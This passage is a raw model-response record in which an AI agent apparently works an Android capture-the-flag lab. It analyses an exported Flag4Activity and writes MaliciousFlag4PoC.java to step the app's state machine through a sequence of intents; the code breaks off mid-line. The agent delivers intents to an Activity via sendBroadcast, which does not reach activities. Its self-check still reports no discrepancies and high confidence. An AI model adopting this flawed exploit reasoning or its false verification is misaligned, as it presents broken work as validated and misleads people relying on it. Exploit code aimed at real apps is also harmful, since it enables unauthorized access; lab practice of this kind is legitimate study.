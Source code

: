 GenerateContentResponse(candidates=[Candidate(content=Content(parts=[Part(video_metadata=None, thought=None, inline_data=None, file_data=None, thought_signature=None, code_execution_result=None, executable_code=None, function_call=None, function_response=None, text="🧠 Analytical Reasoning:\n*   **1. Code Comprehension:** This `MaliciousFlag4PoC.java` is an Android `Activity` designed to send a sequence of intents to `Flag4Activity`. It defines the target package and activity, and the actions for each state transition (`PREPARE_ACTION`, `BUILD_ACTION`, `GET_FLAG_ACTION`). It attempts to send these intents in sequence using `sendBroadcast`.\n*   **2. Threat Modeling (Sources & Sinks):**\n    *   **Sources:** This PoC itself is the source of the malicious input (the sequence of intents).\n    *   **Sinks:** The `sendBroadcast` method is the sink, as it's used to deliver the malicious intents to the target `Flag4Activity`.\n*   **3. Data Flow Tracing:** The PoC constructs three intents with specific actions (`PREPARE_ACTION`, `BUILD_ACTION`, `GET_FLAG_ACTION`) and sends them sequentially. It then sends a fourth intent, also with `GET_FLAG_ACTION`, to trigger the final state.\n*   **4. Security Control Analysis:** The PoC correctly identifies the target activity and the necessary actions. However, the `Flag4Activity` code showed that the `success(this)` method is called when the current state is `GET_FLAG` (ordinal 4) and *any* intent is received. The PoC sends `GET_FLAG_ACTION` as the final trigger, which is correct. The use of `sendBroadcast` is appropriate for targeting an exported component.\n*   **5. Vulnerability Hypothesis:** The `MaliciousFlag4PoC.java` seems to correctly implement the logic to exploit `Flag4Activity` by sending the required sequence of intents. The `sendBroadcast` method is suitable for this purpose. The PoC should successfully transition the state machine and trigger the `success(this)` method, revealing the flag. I will now prepare the `AndroidManifest_PoC.xml` and then write both files to the project root.\n\n**PoC Self-Validation:**\n*   **Re-read PoC Design & Vulnerable Code:** I have reviewed `MaliciousFlag4PoC.java` and `Flag4Activity.java`.\n*   **Trace Expected Interaction:**\n    1.  `MaliciousFlag4PoC` starts.\n    2.  It sends an `Intent` with `PREPARE_ACTION`. `Flag4Activity` receives this. If `Flag4Activity`'s current state is `INIT`, it transitions to `PREPARE`.\n    3.  It sends an `Intent` with `BUILD_ACTION`. `Flag4Activity` receives this. If `Flag4Activity`'s current state is `PREPARE`, it transitions to `BUILD`.\n    4.  It sends an `Intent` with `GET_FLAG_ACTION`. `Flag4Activity` receives this. If `Flag4Activity`'s current state is `BUILD`, it transitions to `GET_FLAG`.\n    5.  It sends a final `Intent` (also `GET_FLAG_ACTION` in the provided PoC, but any action would work). `Flag4Activity` receives this. If `Flag4Activity`'s current state is `GET_FLAG`, it calls `success(this)` and transitions to `INIT`.\n*   **Verify Sink Trigger:** The sequence of intents directly leads to the `GET_FLAG` state, and the final intent then triggers `success(this)`. This aligns with the `Flag4Activity`'s state machine logic.\n*   **Identify Discrepancies:** No discrepancies found. The provided `MaliciousFlag4PoC.java` is logically correct for exploiting the state machine.\n*   **Justify Confidence:** High confidence in the PoC's logical correctness.\n\n**Plan & Sandbox Check:** I will now write the `MaliciousFlag4PoC.java` and `AndroidManifest_PoC.xml` files to the project root. This is a write operation to the project directory, which is a common and expected location for PoC files in such challenges.\n"), Part(video_metadata=None, thought=None, inline_data=None, file_data=None, thought_signature=None, code_execution_result=None, executable_code=None, function_call=FunctionCall(id=None, args={'content': 'package com.example.maliciousapp;\n\nimport android.app.Activity;\nimport android.content.ComponentName;\nimport android.content.Intent;\nimport android.os.Bundle;\nimport android.util.Log;\nimport android.widget.Toast;\n\npublic class MaliciousFlag4PoC extends Activity {\n\n    private static final String TARGET_PACKAGE = "io.hextree.attacksurface";\n    private static final String TARGET_ACTIVITY = "io.hextree.attacksurface.activities.Flag4Activity";\n\n    private static final String PREPARE_ACTION = "PREPARE_ACTION";\n    private static final String BUILD_ACTION = "BUILD_ACTION";\n    private static final String GET_FLAG_ACTION = "GET_FLAG_ACTION";\n    private static final String INIT_ACTION = "INIT_ACTION"; // For resetting the state if needed\n\n    @Override\n    protected void onCreate(Bundle savedInstanceState) {\n        super.onCreate(savedInstanceState);\n        Log.d("MaliciousFlag4PoC", "MaliciousFlag4PoC started.");\n\n        // Optional: Reset state to INIT if it\'s not already, to ensure a clean run\n        Intent resetIntent = new Intent(INIT_ACTION);\n        resetIntent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n        sendBroadcast(resetIntent);\n        Log.d("MaliciousFlag4PoC", "Sent reset intent (INIT_ACTION).");\n\n\n        // Step 1: Send PREPARE_ACTION\n        Intent prepareIntent = new Intent(PREPARE_ACTION);\n        prepareIntent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n        sendBroadcast(prepareIntent);\n        Log.d("MaliciousFlag4PoC", "Sent PREPARE_ACTION.");\n\n        // Step 2: Send BUILD_ACTION\n        Intent buildIntent = new Intent(BUILD_ACTION);\n        buildIntent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n        sendBroadcast(buildIntent);\n        Log.d("MaliciousFlag4PoC", "Sent BUILD_ACTION.");\n\n        // Step 3: Send GET_FLAG_ACTION\n        Intent getFlagIntent = new Intent(GET_FLAG_ACTION);\n        getFlagIntent.setComponent(new ComponentName(TARGET_PACKAGE,